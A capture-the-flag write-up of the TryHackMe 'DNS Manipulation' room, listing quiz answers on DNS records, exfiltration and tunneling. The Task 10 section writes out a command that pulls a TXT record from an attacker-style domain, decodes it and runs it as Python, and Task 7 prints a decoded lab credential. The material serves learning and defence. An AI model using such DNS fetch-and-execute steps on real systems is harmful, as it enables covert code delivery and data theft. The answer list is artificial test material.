 ```yaml
---
title: "THM | DNS Manipulation"
date: 2022-04-17
type: "post"
url : "/write-ups/dnsmanipulation/"
showtableOfContents: true
---
```


## Room

https://tryhackme.com/room/dnsmanipulation

## Task 1: Introduction

*No answer needed*

## Task 2:  Installation

*No answer needed*

## Task 3: [Setup] Custom Public DNS Server

*No answer needed*

## Task 4: What is DNS? 

#### Question 1: If you were on Windows, what command could you use to query a txt record for "youtube.com"?

*~ nslookup -type=txt youtube.com*

#### Question 2: If you were on Linux, what command could you use to query a txt record for 'facebook.com'?

*~ dig facebook.com TXT*

#### Question 3: AAAA stores what type of IP Address along with the hostname?

*~ IPv6*

#### Question 4: Maximum characters for a DNS TXT Record is 256. (Yay/Nay)

*~ Nay*

#### Question 5: What DNS Record provides a domain name in reverse-lookup? (Research)

*~ PTR*

#### Question 6: What would the reverse-lookup be for the following IPv4 Address? (192.168.203.2) (Research)

*~ 2.203.168.192.in-addr.arpa*

```bash
nslookup 192.168.203.2
```

![source](/images/write-ups/dnsmanipulation/2022.png

## Task 5: What is DNS Exfiltration? 

#### Question 1: What is the maximum length of a DNS name? (Research) (Length includes dots!)

*~ 253*

## Task 6: DNS Exfiltration - Demo

*No answer needed*

## Task 7: DNS Exfiltration - Practice

```bash
cd ~/challenges/exfiltration/orderlist/
python3 ~/dns-exfil-infil/packetyGrabber.py order.pcap
cat order.txt
```

![source](/images/write-ups/dnsmanipulation/2022_1.png)

![source](/images/write-ups/dnsmanipulation/2022_2.png)

#### Question 1: What is the Transaction name? (Type it as you see it)

*~ Network Equip.*

#### Question 2: How much was the Firewall? (Without the $)

*~ 2500*

#### Question 3: Which file contain suspicious DNS queries? 

*~ cap3.pcap*

#### Question 4: Enter the plain-text after you have decoded the data using packetyGrabber.py found in ~/dns-exfil-infil/ folder.

*~ administrator:s3cre7P@ssword*

```bash
cd ../identify/
python3 ~/dns-exfil-infil/packetyGrabber.py cap3.pcap
cat cap.txt
```

![source](/images/write-ups/dnsmanipulation/2022_3.png)

## Task 8: What is DNS Infiltration?

#### Question 1: What type of DNS Record is usually used to infiltrate data into a network?

*~ txt*

## Task 9: DNS Infiltration - Demo

*No answer needed*

## Task 10: DNS Infiltration - Practice

*~ 4.4.0-186-generic*

```bash
nslookup -type=txt code.badbaddoma.in | grep Ye | cut -d \* -f2 > .mail.python3
python3 ~/dns-exfil-infil/packetySimple.py 
python3 .mal.py
```

![source](/images/write-ups/dnsmanipulation/2022_4.png)

## Task 11: DNS Tunneling

#### Question 1: What program was used to Tunnel HTTP over DNS?

*~ iodine*

## Task 12: The End

*No answer needed*

that's it ✌🏽

-------------------------------------------------------------
{{< rawhtml >}} 
 
{{< /rawhtml >}}